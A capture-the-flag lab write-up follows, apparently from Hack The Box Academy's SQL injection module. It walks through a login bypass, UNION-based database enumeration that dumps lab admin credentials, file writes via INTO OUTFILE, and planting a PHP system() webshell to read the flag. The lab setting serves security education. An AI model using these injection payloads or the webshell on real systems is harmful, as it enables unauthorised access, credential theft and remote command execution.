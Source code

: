 ```yaml
---
sticker: lucide//database-backup
---
```

The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

![image](https://academy.hackthebox.com/storage/modules/33/sqli_skills.png)

Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!

![](cybersecurity/images/Pasted%2520image%252020250203155825.png)

# Bypassing the login page
---

First thing we face is the login page, we can begin this assessment by checking the source code: `CTRL+U`:

![](cybersecurity/images/Pasted%2520image%252020250203155958.png)

They haven't forgotten about any credentials or anything related, next thing in mind is trying the most simple SQLI payload:

```
' OR '1'='1'-- -
```

We can try this in the username section:

![](cybersecurity/images/Pasted%2520image%252020250203160114.png)

To our surprise, we were able to successfully log in:

![](cybersecurity/images/Pasted%2520image%252020250203160137.png)

# Database enumeration
---

We can go along with our roleplay, this part is not strictly related to the path intended to obtain the flag, but we can take advantage of the roleplay relating the company assessment and enumerate the database a little bit.

We are inside a dashboard panel, nothing seems off but the first thing we can notice is a search bar on the top right of the screen:

![](cybersecurity/images/Pasted%2520image%252020250203160237.png)

From previous modules, we found the way to enumerate the database, we can try the following:

## Columns number
---

We can enumerate the number of columns by using `ORDER BY`:

```
' order by 1-- -
```

We need to increase the number until we get an error specifying we're off the number of columns, let's automatize this by sending the request to burp's intruder and using it in the following way:

![](cybersecurity/images/Pasted%2520image%252020250203160644.png)



![](cybersecurity/images/Pasted%2520image%252020250203160804.png)

After checking the responses we can see the following:

![](cybersecurity/images/Pasted%2520image%252020250203161026.png)

Error message starts in `6`, so, the number of columns is `5`.

Knowing this, we can start next step.

## Union Injection
---

We can use the following to check if the Union Injection is working:

```sql
cn' UNION select 1,@@version,3,4,5-- -
```

We are using this since we know the number of columns, we'll get the following output:

![](cybersecurity/images/Pasted%2520image%252020250203161321.png)

So it indeed works, now we can begin to read the database:

```sql
cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -
```

We get the following:

![](cybersecurity/images/Pasted%2520image%252020250203161420.png)

The `backup` table seems interesting, we can check it out:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -
```

![](cybersecurity/images/Pasted%2520image%252020250203161536.png)

We see the following, `admin_bk`, we can enumerate the columns in `admin_bk` using this:

```sql
cn' UNION SELECT 1,COLUMN_NAME,DATA_TYPE,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='backup' AND TABLE_NAME='admin_bk'-- -
```

We will see the following:

![](cybersecurity/images/Pasted%2520image%252020250203162243.png)

Got `username` and `password`, let's read it:

```sql
cn' UNION SELECT 1,username,password,4,5 FROM backup.admin_bk-- -
```

![](cybersecurity/images/Pasted%2520image%252020250203162347.png)

Got credentials:

```ad-important
`admin`:`Inl@n3_fre1gh7_adm!n`
```

# Now, Let's go for our flag
---

Nice, this was just an scenario to enumerate the risks of this vulnerability on the system, since in the roleplay we are doing an assessment for a company, it was important to check the enumeration part.

For our flag, we can simply try to upload a webshell in the following way.

## Checking our write privileges
---

We can check if we have high privileges with this:

```sql
' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- -
```

![](cybersecurity/images/Pasted%2520image%252020250203163116.png)

We can check we got `Y`, which stands for yes, meaning we have privileges, in order to write files, three conditions must be there:

```ad-important
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
```

Let's check if `secure_file_priv` variable is not enabled:

```sql
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![](cybersecurity/images/Pasted%2520image%252020250203163254.png)

Value is empty, which means it is not enabled.

We can test writing with the following:

```sql
' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
```

If we visit `/proof.txt`, we can check the following:

![](cybersecurity/images/Pasted%2520image%252020250203163428.png)

We've written successfully, we can now write our webshell in the following way:

```
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/webshell.php'-- -
```

We can confirm it worked by going to:

`http://IP:PORT/dashboard/webshell.php?0=id`

![](cybersecurity/images/Pasted%2520image%252020250203164153.png)

Let's list the `/` directory: `ls+/`

![](cybersecurity/images/Pasted%2520image%252020250203164320.png)


We can see the flag, we can simply read it by using `cat+/flag_cae1dadcd174.txt`

![](cybersecurity/images/Pasted%2520image%252020250203164435.png)

Got our flag: `528d6d9cedc2c7aab146ef226e918396`


![](cybersecurity/images/Pasted%2520image%252020250203164504.png)

